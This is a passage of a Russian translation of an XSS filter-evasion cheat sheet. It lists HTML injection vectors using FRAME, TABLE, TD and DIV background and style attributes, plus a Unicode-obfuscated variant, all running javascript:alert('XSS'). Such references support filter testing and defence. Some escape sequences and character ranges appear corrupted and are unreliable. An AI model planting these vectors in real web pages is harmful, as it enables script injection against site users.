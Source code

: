 (Автор: David Cross)

### FRAME

Фреймы имеют те же проблемы с XSS, что и iFrames

```html
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
```

### TABLE

```html
<TABLE BACKGROUND="javascript:alert('XSS')">
```

#### TD

Как и выше, TD уязвимы для фонов, содержащих XSS-векторы JavaScript:

```html
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
```

### DIV

#### DIV Background-image

```html
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
```

#### DIV Background-image с помощью эксплойта Unicode XSS

Это было немного изменено, чтобы запутать параметр URL:

```html
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
```

(Первоначальная уязвимость была обнаружена Рено Лифшицем как уязвимость в Hotmail)

#### DIV Background-image Plus Extra Characters

RSnake встроил быстрый XSS-фаззер для обнаружения любых ошибочных символов, которые допускаются после открытых круглых скобок, но перед директивой JavaScript в IE. Они указаны в десятичном формате, но вы, конечно, можете включить шестнадцатеричный и добавить отступы. (Можно использовать любой из следующих символов: 1-32, 34, 39, 160, 8192-8.13, 12288, 65279):

```html
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
```

#### DIV Выражения

Вариант этой атаки был эффективен против реального XSS-фильтра с использованием новой строки между двоеточием и `expression`:
